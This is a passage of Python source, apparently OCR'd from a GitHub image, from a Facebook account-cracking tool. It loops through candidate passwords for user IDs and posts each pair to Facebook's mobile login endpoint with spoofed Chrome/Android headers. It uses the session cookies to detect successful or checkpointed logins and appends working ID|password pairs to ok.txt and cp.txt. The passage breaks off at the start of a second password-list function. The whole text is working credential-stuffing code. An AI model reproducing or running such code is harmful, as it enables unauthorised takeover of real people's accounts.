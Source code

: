 			'method': 'POST',
			'scheme': 'https',
			'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
			'accept-encoding':'utf-8','accept-language': 'en-US,en;q=0.9',
			'cache-control': 'max-age=0',
			'sec-ch-ua': '"Google Chrome";v="100", "Not)A;Brand";v="99", "Chromium";v="100"',
			'sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"',
			'sec-fetch-dest': 'document',
			'sec-fetch-mode': 'navigate',
			'sec-fetch-site': 'none',
			'sec-fetch-user': '?1',
			'upgrade-insecure-requests': '1',
			'user-agent': pro}
			lo = session.post('https://m.alpha.facebook.com/login/device-based/regular/login/?refsrc=deprecated&amp;lwv=100&amp;refid=8',data=log_data,headers=header_freefb).text
			log_cookies=session.cookies.get_dict().keys()
			#print(iid+'|'+pws+'|'+str(log_cookies))
			if 'c_user' in log_cookies:
				coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
				cid = coki[151:166]
				print('\n')
				print('\033[1;92m[NINS-OK] '+idf+' | '+ps+'\033[0;97m')
				cek_apk(coki)
				open('ok.txt', 'a').write(idf+' | '+ps+'\n')
				oks.append(idf)
				break
			elif 'checkpoint' in log_cookies:
				coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
				cid = coki[141:156]
				print('\n')
				print('\033[1;91m[INNOCENT-CP] '+idf+' | '+ps+'\033[0;97m')
				open('cp.txt', 'a').write(idf+' | '+ps+'\n')
				cps.append(idf)
				break
			else:
				continue
		loop+=1
		bo = random.choice([m,k,h,b,u,x])
		sys.stdout.write(f'\r\r\033[1;37m [AVI] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
		sys.stdout.flush()
	
	except:
		pass
def apix(ids,passlist):
                try:
                        global ok,loop
                        sys.stdout.write(f'\r\r\033[1;37m [NINS] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                        for pas in passlist:
                                application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))
                                application_version_code=str(random.randint(000000000,999999999))
                                fbs=random.choice(fbks)